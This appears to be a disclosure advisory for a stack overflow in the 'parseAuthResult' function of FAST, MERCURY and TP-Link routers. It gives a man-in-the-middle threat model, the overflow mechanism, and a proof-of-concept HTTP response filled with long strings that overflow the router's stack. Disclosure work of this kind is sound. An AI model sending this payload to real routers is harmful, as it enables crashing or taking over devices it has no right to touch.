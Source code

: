 # parseAuthResult  Vulnerability Report

FAST,MERCURY and TP-Link routers have a stack overflow issue in `parseAuthResult` function`.

Local users could get remote code execution, this vulnerability currently affects three types of routers:

- FAST: FW, FAC, FR series (e.g., FW325R, FR100P-AC, FAC1900R, FAC1200R)
- MERCURY: D, M, MW series (e.g., M6G, D196G, MW310R, MW351R, D121G)
- TP-Link: WDR, WR, R, WA series (e.g., TL-WDR7660, TL-WDR7650, TL-WA933RE)

It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability Description

**Threat model**: An attacker can intercept the traffic between router and Intenet. That is, an attacker can perform a man-in-the-middle attack on the router.

This vulnerability happen when `parseAuthResult` handle data from cloud server by using `strncpy`.

1. Attackers intercept the response from cloud server.
2. Then attackers send a malicious response to the router. The data between two `\r\n` in this malicious response is filled a long string.
3. `parseAuthResult` get these data by using `strstr` . However, the length is not checked.
4. Finally, whole string of these data are copyed to the stack by `strncpy` up to ten times and lead to a buffer overflow.


![4](photos/4.png)

PoC

```
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 200
Connection: close
Cache-control: no-cache

\r\n111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\r\n111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\r\n111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\r\n
```
